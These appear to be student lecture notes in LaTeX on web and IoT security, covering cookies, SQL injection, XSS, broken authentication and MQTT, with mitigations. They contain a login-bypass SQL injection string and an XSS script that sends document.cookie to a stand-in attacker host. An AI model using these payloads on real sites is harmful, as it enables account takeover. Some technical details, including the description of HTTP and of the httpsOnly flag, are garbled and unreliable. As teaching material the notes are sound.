\section{Web and IoT Security}
\subsection{Web Applications}
The \textbf{client-server} model is the most used in Internet, the two entity, client and server, exchange messages in a request-response messaging pattern, to communicate client and server must have a common language specified by a protocol that operate in the application layer. The client is not concerned with how the server performs while fulfilling the request and delivering the response.

\textbf{HTTP} is an appication layer protocol that use the client-server paradigm to exchange messagess, is \begin{itemize}
    \item Connectionless: client initiates an HTTP request and after a request is made, the client disconnects from the server and waits for a response. The server processes the request and re-establishes the connection with the client to send a response back.
    \item Media indipendent: any type of data can be set by HTTP as long as both the client and the server know how to handle the data content.
    \item \textbf{Stateless}: the server and the client are aware of each other only during a current request.
\end{itemize}
\myparagraph{Cookies}
 Said that a Stateless protocol for Internet has not point, so the \textbf{HTTP cookie} was invented. HTTP cookie (or web cookie, Internet cookie, browser cookie or cookie) is a small piece of data sent from a website and stored on the user's computer by the user's web browser, designed to be a reliable mechanism for websites to remember stateful information. Authentication cookies are the most common method used by web servers to know whether the user is logged in or not and which account they are logged in with, security vulnerabilities may allow a cookie's data to be read by a hacker and then used to gain access to user data or to the website to which the cookie belongs. There are also privacy concerns, tracking cookies abd especially third-party tracking cookies are commonly used as ways to compile long-term records of individuals browsing histories.

 This is an example of cookie authentication:
 \begin{figure}[h!]
     \centering
     
\includegraphics[scale=0.35]{images/cookies.png}
 \end{figure}
 \FloatBarrier

 Note that we have to take care when handling cookies, they can be sent in clear or in httpsOnly (server sends back cookies only over HTTPS).
 \\\\
 \subsection{Web security}
 Now we can understand that creating a web application is easy, but creating a secure web application is hard and tedious, we need to secure the database, the server, the application and the network. There are several different attack to consider: malware attack (e.g. virus in the client pc), Network attack (DDoS, Heartblead ...) or Web attack (SQL injection) and even others.

Web applications requirements
\begin{itemize}
    \item Authentication: You want to know who you are communicating with.
    \item Authorization: User must have access to only those resources that they are entitled to.
    \item Confidentiality: You want to keeep information secret.
    \item Integrity: You want to know that a message has not been modified in transit.
    \item Non-repudiation: If someone has sent a message, it should be impossible to deny it later.
\end{itemize}
Web App Security is a branch of information security that deals specifically with security of websites, web applications and web services, the goals are to safely browse the web, support secure web and support secure mobile apps.

\subsection{Injection Attacks}
Are all the types of attacks that exploit a bug processing invalid data, the injection is used by an attacker to inject code into a vulnerable computer program and change the course of execution.

\myparagraph{SQL Injection}
Is a type of injection that exploit the table lookup used for checking if the username correspond with the password,
this is the code in the server:
\begin{verbatim}
    String username = request.getParameter("username");
    String password = request.getParameter("password");
    Statement stmt = con.CreateStatement("SELECT * FROM TBL_USERS WHERE username = '" 
                                        + username + "' AND password = '" + password + "'");
\end{verbatim}
If the client when entering the username write
\begin{verbatim}
    admin';--
\end{verbatim}
The query is now
\begin{verbatim}
    SELECT * FROM TLB_USERS WHERE username = 'admin';-- ' and password = '123';
\end{verbatim}
As we know comments in SQL start with '--' so in our query we are only checking for the username admin skipping the requirment for the password.

A famous SQL injection attack was performet against CardSystems, 263000 credit cards were stolen from the database, they were all stored uncrypted.

Possible mitigation could be input sanitization and appling the principle of least priviledge.

\myparagraph{Cross-Site Scripting (XSS) Attacks}
Suppose the victim is given this URL by the attacker controlling a web site at the address www.hacker.com
\begin{verbatim}
    http://www.vulnerable.com/welcome.php?name=
    <script>window.open ("http://www.hacker.com/
    collect.php?cookie= "+document.cookie) </script>
\end{verbatim}
The idea is to forward the cookie of the user to the site controlled by the attacker so that it can exploit it.
The web page would then be injected with the following script:
\begin{verbatim}
    <html>
      <body>
        <script>window.open("http://www.hacker.com/
         collect.php?cookie= "+document.cookie) 
        </script>
        ,welcome to our site.
      </body>
    </html>
\end{verbatim}
The script, executed in the browser of the user, sends the cookie to the web site controlled by the attacker. For this attack exist two variants:
\begin{itemize}
    \item \textbf{Reflected}: Use a constructed URL
    \item \textbf{Stored}: Using a POST to store the bad URL inside a comment/forum
\end{itemize}
Possible mitigations for this attack could be filtering all parameters from HTTP GET and POST, so for example remove special characters or substitute it specifing which characters are allowed.

\myparagraph{Unvalidated input}
Clients can easily circumvent checks in the HTML code itself, such as hidden parameters and JavaScript code, they can simply download the page, edit the HTML and/or JavaScript, load up the modified page in the browser and click "Submit". Client side validation is useful for performance reasons, but useless from a security point of view. A solution could be never trust input from user and never trust client side input validation, all the parameters must be validated on the server side before they are used.

\myparagraph{Broken Authentication}
Username and password combinations are commonly used and commonly broken, collection of them are on sale in the dark web, this is caused by insecure storage of password hash, faulty session management. Mitigation for this could be Disallow weak passwords, use a stronger hash algorithm, salt the password, use HTTPS, implement MFA and do not expose credentials in untrusted locations.

\subsection{IoT Applications}
IoT uses a publish-subscribe communication, this paradigm works like that: A publisher produce data in the form of event and publish it in the rispective Topic on the Event Notification System, the subscriber subscribe to the topic and the ENS notify the subscriber when a message is delivered.
\begin{figure}[h!]
    \centering
    
\includegraphics[scale=0.35]{images/publishersub.png}
\end{figure}
\FloatBarrier

\subsection{MQTT}
\textbf{MQTT} (Message Queue Telematry Transport) is a type of publisher subscribe messaging protocol, designed for constrained devices and low-bandwidth, high-latency or unreliable networks. This because MQTT aims to minimise network bandwidth, small resource requirements and ensure reliability. For the security view it's possible to pass a username and password with an MQTT packet, encryption can be handeled with TLS, indipendently of the MQTT protocol itself. Additional security can be added by an application encrypting data that it sends and receives, but is not something built-in to the protocol. Even if there is authentication, the brute force attack can be performed, also can write packets to "\$SYS/#" in an attempt to crash the broker. Remember, the S in IoT stays for Security.